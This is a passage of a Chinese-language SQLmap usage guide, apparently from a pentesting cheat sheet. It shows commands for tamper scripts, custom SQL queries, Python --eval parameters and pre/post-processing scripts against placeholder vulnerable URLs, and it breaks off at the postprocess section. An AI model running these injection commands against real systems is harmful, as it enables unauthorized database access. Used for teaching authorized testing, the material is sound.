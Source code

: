     ```ps1
    /usr/share/sqlmap/tamper/
    ```

* 使用 SQLmap

    ```ps1
    sqlmap -u "http://target.com/vuln.php?id=1" --tamper=mytamper
    ```

### 自定义 SQL 负载

SQLmap 中的 `--sql-query` 选项用于在 SQLmap 确认注入并收集必要访问权限后，在易受攻击的数据库上手动运行自己的 SQL 查询。

```ps1
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT version()"
```

### 评估 Python 代码

`--eval` 选项允许你使用 Python 定义或修改请求参数。然后可以在 URL、头部、Cookie 等中使用这些计算出的变量。

在以下场景中特别有用：

* **动态参数**: 当参数需要随机或按顺序生成时。
* **令牌生成**: 处理 CSRF 令牌或动态身份验证头。
* **自定义逻辑**: 如编码、加密、时间戳等。

```ps1
sqlmap -u "http://example.com/vulnerable.php?id=1" --eval="import random; id=random.randint(1,10)"
sqlmap -u "http://example.com/vulnerable.php?id=1" --eval="import hashlib;id2=hashlib.md5(id).hexdigest()"
```

### 预处理和后处理脚本

```ps1
sqlmap -u 'http://example.com/vulnerable.php?id=1' --preprocess=preprocess.py --postprocess=postprocess.py
```

#### 预处理脚本 (preprocess.py)

预处理脚本用于在发送到目标应用程序之前修改请求数据。这对于编码参数、添加头部或其他请求修改非常有用。

```ps1
--preprocess=preprocess.py    使用给定的脚本（请求）进行预处理
```

**示例 preprocess.py**:

```ps1
#!/usr/bin/env python
def preprocess(req):
    print("Preprocess")
    print(req)
```

#### 后处理脚本 (postprocess.py)

